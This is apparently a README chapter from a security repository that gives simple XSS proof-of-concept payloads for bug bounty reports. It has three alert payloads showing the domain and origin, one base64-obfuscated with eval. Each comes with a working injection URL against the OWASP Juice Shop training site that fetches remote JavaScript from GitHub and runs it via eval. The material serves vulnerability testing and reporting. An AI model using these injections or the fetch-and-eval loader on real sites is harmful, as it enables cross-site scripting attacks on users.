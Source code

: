 # Simple Proof of Concept (PoC)

<p align="justify">This chapter covers an important topic, related to confirming the existence and exploitability of an XSS vulnerability - providing a simple technical Proof of Concept (PoC).</p>

<p align="justify">For this purpose, for a long time across the technical IT security industry, <b><code>alert(1)</code></b> has been used, almost exclusively. As already <b>explained by LiveOverflow [1]</b> in detail, this is a <b>bad practice</b> and <b>should be avoided</b>.</p>

<p align="justify">The payloads documented here provide ready-to-use alternatives, all of which address the mentioned issue.</p>

* **NOTE**: this is not an exhaustive list - further options of modifying the payload exist
    * the payloads listed here serve the purpose of providing a proven fast and simple PoC for reporting XSS vulnerabilities (e.g. via Bug Bounty platforms)
        * any additional impact is to be demonstrated via additional PoC(s) (i.e. these one serve only as a quick check that the vulnerability exists on the affected web application - to pass initial triage)
    * depending on the scenario, one may work over another
        * overall, in most scenarios, at least one of them works
            * if not, explore available options for "saying the same in a different way" (i.e. adapt to target environment)
    * list may be updated with additional encoding variants

## `simpleStd.js` - round brackets; quote; space; backslash

```
alert('DOMAIN: '.concat(document.domain).concat('\nORIGIN: ').concat(window.origin));
```

* *(live example - OWASP juice shop)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleStd.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleDec.js` - round brackets
```
alert(String.fromCharCode(68,79,77,65,73,78,58,32).concat(document.domain).concat(String.fromCharCode(10,79,82,73,71,73,78,58,32)).concat(window.origin));
```

* *(live example - OWASP juice shop)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleDec.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## `simpleB64.js` - round brackets, quote, `eval()`
```
eval(atob('YWxlcnQoJ0RPTUFJTjogJy5jb25jYXQoZG9jdW1lbnQuZG9tYWluKS5jb25jYXQoJ1xuT1JJR0lOOiAnKS5jb25jYXQod2luZG93Lm9yaWdpbikpOwo='));
```

* *(live example - OWASP juice shop)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22fetch('%2F%2Fraw.githubusercontent.com%2Flighthouseitsecurity%2FweaponizedXSS%2Frefs%2Fheads%2Fmain%2Fbasic%2FsimplePoC%2FsimpleB64.js').then(function(r)%7Breturn%20r.text().then(function(t)%7Breturn%20eval(t);%7D)%7D);%22%3E

## References

* [https://liveoverflow.com/do-not-use-alert-1-in-xss/](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
